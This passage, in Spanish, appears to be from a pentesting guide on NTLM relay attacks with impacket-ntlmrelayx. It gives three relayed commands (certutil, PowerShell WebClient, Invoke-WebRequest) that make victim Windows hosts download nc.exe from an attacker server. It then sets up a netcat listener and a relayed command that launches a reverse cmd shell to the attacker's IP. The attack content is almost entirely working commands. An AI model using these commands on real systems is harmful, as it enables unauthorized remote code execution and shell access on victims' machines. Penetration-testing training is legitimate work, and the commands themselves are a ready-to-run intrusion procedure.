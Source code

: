 Para subir el binario de netcat a la máquina atacante cualquiera de los tres métodos de abajo sirven.

`sudo impacket-ntlmrelayx -tf targets.txt -c "certutil.exe -f -urlcache -split http://192.168.1.132:8000/nc.exe C:\Windows\Temp\nc.exe" -smb2support`

`sudo impacket-ntlmrelayx -tf targets.txt -c "Powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.132:8000/nc.exe','C:\Windows\Temp\nc.exe')" -smb2support`

`sudo impacket-ntlmrelayx -tf targets.txt -c "Powershell (Invoke-WebRequest -Uri 'http://192.168.1.132:8000/nc.exe' -OutFile 'C:\Windows\Temp\nc.exe')" -smb2support`

![Ejecuci&#xF3;n correcta del comando certutil.](../.gitbook/assets/ntlmrelay4.png)

Una vez cumplidas las dos primeras acciones, procedemos a ejecutar una reverse shell. Para ello ponemos en el atacante un nc a la escucha y ejecutamos el nc en la victima 

`atacante --> nc -lvnp PUERTO` Para obtener una shell más comoda podemos utilizar **rlwrap**.

`victima --> sudo impacket-ntlmrelayx -tf targets.txt -c "C:\Windows\Temp\nc.exe -e cmd 192.168.1.132 4343" -smb2support`

![&#xA1;Premio!](../.gitbook/assets/ntlmrelay5.png)
